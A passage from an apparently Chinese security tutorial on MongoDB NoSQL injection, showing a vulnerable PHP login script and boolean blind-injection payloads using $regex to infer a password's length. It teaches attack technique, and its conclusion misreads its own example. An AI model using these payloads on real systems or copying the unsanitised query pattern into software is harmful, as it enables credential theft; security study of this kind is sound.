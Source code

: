 则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了。

### 布尔盲注

当页面没有回显时，那么我们可以通过 `$regex` 正则表达式来进行盲注， `$regex` 可以达到和传统 SQL 注入中 `substr()` 函数相同的功能。

我们还是利用第一个 index.php 进行演示：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

布尔盲注重点在于怎么逐个提取字符，如下所示，在已知一个用户名的情况下判断密码的长度：

```php
username=admin&password[$regex]=.{4}    // 登录成功
username=admin&password[$regex]=.{5}    // 登录成功
username=admin&password[$regex]=.{6}    // 登录成功
username=admin&password[$regex]=.{7}    // 登录失败
......
```

![image-20210724010106365](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-65159ecfa44db68a5a839a0a21d8e881abe0b0e0.png)

![image-20210724010125065](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bd532ee6dc7d946d0b04a857f274a6b3a88dc433.png)

在 `password[$regex]=.{6}` 时可以成功登录，但在 `password[$regex]=.{7}` 时登录失败，说明该 whoami 用户的密码长度为 7。

提交的数据进入 PHP 后的数据如下：

```php
array(
    'username' => 'admin',
    'password' => array('$regex' => '.{6}')
)
```
